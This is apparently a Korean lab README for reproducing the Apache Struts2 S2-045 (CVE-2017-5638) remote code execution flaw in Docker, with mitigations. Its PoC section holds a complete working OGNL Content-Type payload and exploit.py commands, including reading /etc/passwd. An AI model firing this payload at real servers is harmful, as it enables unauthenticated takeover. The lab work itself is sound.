




# CVE-2017-5638 — Apache Struts2 Jakarta Multipart Parser RCE (S2-045)

## 1. 취약점 요약

Apache Struts2의 파일 업로드 처리에 사용되는 **Jakarta 기반 Multipart 파서**는, HTTP 요청의
`Content-Type` 헤더가 `multipart/form-data`로 시작하면서 파싱 과정에서 예외가 발생할 경우
해당 헤더 값을 **OGNL(Object-Graph Navigation Language) 표현식으로 평가**하는 결함이 있다.

공격자는 `Content-Type` 헤더에 OGNL 페이로드를 삽입한 단일 HTTP 요청만으로, **인증 없이
원격에서 임의의 시스템 명령을 실행(RCE)** 할 수 있다. 별도의 로그인이나 세션, 사전 조건이
전혀 필요하지 않아 위험도가 매우 높으며, 2017년 Equifax 개인정보 대량 유출 사고의 원인으로
알려져 있다.

- **CVE**: CVE-2017-5638
- **별칭**: S2-045
- **영향 버전**: Apache Struts 2.3.5 ~ 2.3.31, 2.5 ~ 2.5.10
- **공격 유형**: 인증 불필요, 원격, OGNL Injection → Remote Code Execution
- **CVSS v3.0**: 10.0 (Critical) — `AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`

## 2. 환경 구성

`tomcat:7-jre8` 공식 베이스 이미지 위에, 취약 버전인 **Struts 2.3.30**의 공식 배포
아카이브(`archive.apache.org`)에서 `struts2-showcase.war`를 빌드 시점에 직접 내려받아
배포한다. 사전 빌드된 외부 취약 이미지에 의존하지 않으며, `docker compose` 한 번으로
환경이 완성된다.

```
CVE-2017-5638/
├── Dockerfile
├── docker-compose.yml
├── exploit.py
└── README.md
```

### 실행 방법

```bash
git clone <본인 fork 주소>
cd kr-vulhub/Struts2/CVE-2017-5638
docker compose up -d --build
```

빌드 및 기동이 끝나면 `http://localhost:8080/struts2-showcase/showcase.action` 으로
정상 접속되는지 확인한다.

```bash
curl -s -o /dev/null -w "%{http_code}\n" http://localhost:8080/struts2-showcase/showcase.action
# 200
```

## 3. 취약 조건

- Struts2 애플리케이션이 **Jakarta 기반 Multipart 파서**(기본값)를 사용 중일 것
- 영향 버전(2.3.5~2.3.31, 2.5~2.5.10) 범위 내일 것
- 공격자가 도달 가능한 임의의 Struts2 액션 URL이 하나라도 존재할 것
  (Multipart 파싱은 액션 매핑 이전, 필터 단계에서 수행되므로 특정 업로드 기능이 아니어도 됨)
- 별도의 인증·세션·CSRF 토큰 불필요

## 4. 재현 절차

1. `docker compose up -d --build` 로 취약 환경 기동
2. 브라우저에서 `http://localhost:8080/struts2-showcase/showcase.action` 정상 접속 확인
3. 공격자는 정상적인 GET/POST 요청을 보내되, `Content-Type` 헤더만 악성 OGNL
   표현식으로 교체한 요청을 전송
4. Struts2의 Multipart 파서가 `Content-Type` 파싱 중 예외를 던지면서 헤더 값을
   OGNL 컨텍스트에서 평가 → 임베드된 명령이 서버에서 실행됨
5. 실행 결과(명령 출력)가 HTTP 응답 바디로 그대로 반환됨

## 5. PoC 코드

### 5-1. curl 한 줄 PoC (복붙 실행 가능)

```bash
curl -s http://localhost:8080/struts2-showcase/showcase.action \
  -H "Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
```

### 5-2. 파이썬 PoC

[exploit.py](exploit.py) — 임의 명령을 인자로 받아 실행한다.

```bash
pip install requests
python3 exploit.py http://localhost:8080/struts2-showcase/showcase.action "id"
python3 exploit.py http://localhost:8080/struts2-showcase/showcase.action "uname -a"
python3 exploit.py http://localhost:8080/struts2-showcase/showcase.action "cat /etc/passwd"
```

## 6. 실행 결과

`id`, `uname -a` 명령 실행 시 컨테이너 내부 Tomcat 프로세스 권한(`root`)으로 명령이
실행되어 그 출력이 HTTP 응답으로 그대로 반환됨을 확인했다.

```
$ curl ... -H "Content-Type: ...(#cmd='id')..." http://localhost:8080/struts2-showcase/showcase.action
uid=0(root) gid=0(root) groups=0(root)
```






> 스크린샷은 직접 재현 후 캡처하여 본 폴더에 `1.png`~`4.png`로 저장한 것이며,
> 외부 CDN·개인 포크 URL을 사용하지 않고 PR에 로컬 파일로 포함했다.

## 7. 대응 방안

- **버전 업그레이드**: Struts 2.3.32 또는 2.5.10.1 이상으로 업데이트하여 패치된
  Multipart 파서를 적용한다.
- **파서 교체**: 임시 완화책으로 Multipart 파서를 Jakarta 기반에서
  **Pell 기반(`struts.multipart.parser=pell`)** 으로 변경하면 해당 OGNL 평가 경로를
  우회할 수 있다.
- **WAF/리버스 프록시 필터링**: `Content-Type` 헤더에 `%{`, `OgnlContext`,
  `ProcessBuilder` 등 OGNL 관련 키워드가 포함된 요청을 차단한다.
- **최소 권한 원칙**: 애플리케이션 서버(Tomcat) 프로세스를 `root`가 아닌 전용 저권한
  계정으로 구동하여, RCE 발생 시에도 피해 범위를 제한한다.
- **네트워크 분리**: 외부에서 직접 접근 불가능하도록 WAS 앞단에 리버스 프록시·방화벽을
  두고 불필요한 포트 노출을 차단한다.
